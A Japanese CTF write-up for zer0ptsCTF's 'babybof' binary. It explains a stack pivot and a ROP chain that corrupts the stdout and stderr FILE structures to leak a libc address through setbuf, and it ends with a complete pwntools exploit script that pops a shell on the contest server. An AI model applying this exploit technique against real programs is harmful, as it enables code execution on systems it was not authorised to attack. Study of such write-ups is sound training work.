 ```yaml
---
layout: page
title: "[zer0ptsCTF / babybof] Writeup"
date: 2020-03-09 00:00:00 -0000
categories: pwn 
---
```


自分の解法が想定解と思ってたら違ったようなので念のため。  
100%刺さって、そんなに長くない。

### 問題概要
- no pie, no canary, full relroのバイナリで、setbufやった後はbssにreadする。
- mainの関数はバッファが小さめに取られていて、自明なbofがあるが、出力系が一切ない。
- 最後にexitする。 
- バイナリにはropガジェットが与えられている。セットできるのはrdi, rsi, rbp。あとleaveが使える。
- とにかく問題が小さい。全部はれるレベル

```
entry:
        00400430 e8 0a 00        CALL       setup  
                 00 00
        00400435 e8 44 00        CALL       main     
                 00 00
        0040043a e8 e1 ff        CALL       exit  
                 ff ff
```
```
setup: 
        0040043f 55              PUSH       RBP
        00400440 48 89 e5        MOV        RBP,RSP
        00400443 48 31 f6        XOR        RSI,RSI
        00400446 48 b8 30        MOV        RAX,stdin
                 10 60 00 
                 00 00 00 00
        00400450 48 8b 38        MOV        RDI,qword ptr [RAX]=>stdin
        00400453 e8 a8 ff        CALL       setbuf
                 ff ff
        00400458 48 b8 20        MOV        RAX,stdout
                 10 60 00 
                 00 00 00 00
        00400462 48 8b 38        MOV        RDI,qword ptr [RAX]=>stdout
        00400465 e8 96 ff        CALL       setbuf
                 ff ff
        0040046a 48 b8 40        MOV        RAX,stderr
                 10 60 00 
                 00 00 00 00
        00400474 48 8b 38        MOV        RDI,qword ptr [RAX]=>stderr
        00400477 e8 84 ff        CALL       setbuf
                 ff ff
        0040047c 5d              POP        RBP
        0040047d c3              RET
```
```
main:
        0040047e 55              PUSH       RBP
        0040047f 48 89 e5        MOV        RBP,RSP
        00400482 48 83 ec 20     SUB        RSP,0x20
        00400486 ba 00 02        MOV        EDX,0x200
                 00 00
        0040048b 48 8d 75 e0     LEA        RSI=>local_28,[RBP + -0x20] <----- !!!
        0040048f bf 00 00        MOV        EDI,0x0
                 00 00
        00400494 e8 77 ff        CALL       read
                 ff ff
        00400499 c9              LEAVE
        0040049a c3              RET
```
### 解法
- 出力がないので、stdoutのwriteポインタを触れるのは必須。ただし書き換えただけではリークせず、出力系が動かないとだめ。今回はsetbufを走らせたときにリークするのがポイント。また`rbp`に適当な値をセットした後に`40048b`に飛ぶと、次のpivot先を編集しながら進める。
- `rbp`にstderrのアドレスを保持した状態でleaveに入っていれば良い。逆算すると、`rbp`に`601040`が無いといけない。
- またstderrを書き換えた後、戻ってくるアドレスを保持したところを準備しておく必要がある。
- 具体的な手順は以下の通り。
    1. `601068`を`rbp`にセットして、`40048b`に飛ぶ。
    2. mainのアドレスをbssに格納し、`601040`を`rbp`にセットして、`leave`ガジェットに飛ぶ
    3. stderrのsetbufが走るように値を設定し、関数ポインタを2.で設定したmainのアドレスに向けて、entryに飛ぶ
    4. entry -> setup -> setbuf(stdout, 0)でリーク -> setbuf(stderr, 0)でvtableからmainへ
    5. system("/bin/sh")（勝ち）

2.の後のbss最後の状態
```
0x601020 <stdout@@GLIBC_2.2.5>:	0x00007f21097b8760	0x0000000000000000
0x601030 <stdin@@GLIBC_2.2.5>:	0x00007f21097b7a00	0x0000000000000000
0x601040 <stderr@@GLIBC_2.2.5>:	0x00007f21097b8680	0x0000000000400499
0x601050:	0x0000000000000001	0x0000000000000002
0x601060:	0x0000000000000003	0x0000000000000004
0x601070:	0x000000000040047c	0x0000000000601040
0x601080:	0x0000000000400499	0x000000000040047e
0x601090:	0x0000000000000000	0x0000000000000000
0x6010a0:	0x0000000000000000	0x0000000000000000
0x6010b0:	0x0000000000000000	0x0000000000000000
0x6010c0:	0x0000000000000000	0x0000000000000000

```

3.の後のstderrはこんな感じ
```
0x7f21097b8680 <_IO_2_1_stderr_>:	0x0000000000000000	0x0000000000400430
0x7f21097b8690 <_IO_2_1_stderr_+16>:	0x0000000000000000	0x0000000000000000
0x7f21097b86a0 <_IO_2_1_stderr_+32>:	0x0000000000000000	0x0000000000000000
0x7f21097b86b0 <_IO_2_1_stderr_+48>:	0x0000000000000000	0x0000000000000000
0x7f21097b86c0 <_IO_2_1_stderr_+64>:	0x0000000000000000	0x0000000000000000
0x7f21097b86d0 <_IO_2_1_stderr_+80>:	0x0000000000000000	0x0000000000000000
0x7f21097b86e0 <_IO_2_1_stderr_+96>:	0x0000000000000000	0x0000000000000000
0x7f21097b86f0 <_IO_2_1_stderr_+112>:	0x0000000000000000	0x0000000000000000
0x7f21097b8700 <_IO_2_1_stderr_+128>:	0x0000000000000000	0x00000000006010c0
0x7f21097b8710 <_IO_2_1_stderr_+144>:	0x0000000000000001	0x0000000000000002
0x7f21097b8720 <_IO_2_1_stderr_+160>:	0x0000000000000003	0x0000000000000004
0x7f21097b8730 <_IO_2_1_stderr_+176>:	0x0000000000000005	0x0000000000000006
0x7f21097b8740 <_IO_2_1_stderr_+192>:	0x0000000000000007	0x0000000000000008
0x7f21097b8750 <_IO_2_1_stderr_+208>:	0x0000000000000009	0x0000000000601030
0x7f21097b8760 <_IO_2_1_stdout_>:	0x00000000fbad1887	0x0000000000000000
```
完成したスクリプト

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

TARGET = './chall'
HOST = '13.231.207.73'
PORT = 9002

elf = ELF(TARGET)
def start():
    if not args.R:
        print "local"
        return process(TARGET)
        # return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
        # return process(TARGET, stdout=process.PTY, stdin=process.PTY)
    else:
        print "remote"
        return remote(HOST, PORT)

def get_base_address(proc):
    return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(proc, breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(proc)
    script += "set $_base = 0x{:x}\n".format(PIE)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    script += "c"
    gdb.attach(proc, gdbscript=script)

def dbg(val): print "\t-> %s: 0x%x" % (val, eval(val))

r = start()
if args.D:
    debug(r, [0x48b, 0x49a])

rbp = 0x40047c
rdi = 0x40049c
rsi = 0x40049e
leave = 0x400499
intercept = 0x40048b
main = 0x40047e
setup = 0x400430

payload = ''
payload += 'A'*40
payload += flat(rbp, 0x601048+0x20, intercept)
r.send(payload.ljust(0x200, '\x00'))
pause()

payload = ''
payload += flat(intercept, 1, 2, 3, 4, rbp, 0x601040, leave, main)
r.send(payload.ljust(0x200, '\x00'))
pause()

payload = ''
payload += '\x00' * 0x28
payload += flat(setup)
payload = payload.ljust(0x88+0x20, '\x00')
payload += flat(0x6010c0)
payload += flat(1, 2, 3, 4, 5, 6, 7, 8, 9, 0x601088-0x58)
payload += flat(0xfbad1887, 0, 0, 0) + '\x00'
r.send(payload)
leak = u64(r.recv(0x80)[0x40:0x48])
dbg("leak")
base = leak -0x3c5600
system = base + 0x45390
binsh = base + 0x18cd57

payload = ''
payload += '\x00' * 0x28
payload += flat(rdi, binsh, system)
r.sendline(payload)

r.interactive()
r.close()
```

#### 感想
- stdoutいじってリークしないときは絶望したし、stderrで落ちるときも絶望したし、ropでsetbuf組むのもアドレス知らんので詰んでたし、だいぶ苦しみながら作ってた。
- setbufでリークするのはこれからも使えそうな気がする小ネタ。
- これだけ小さいプログラムで、これだけたくさん考えられて楽しいのは本当にすごい。面白かった。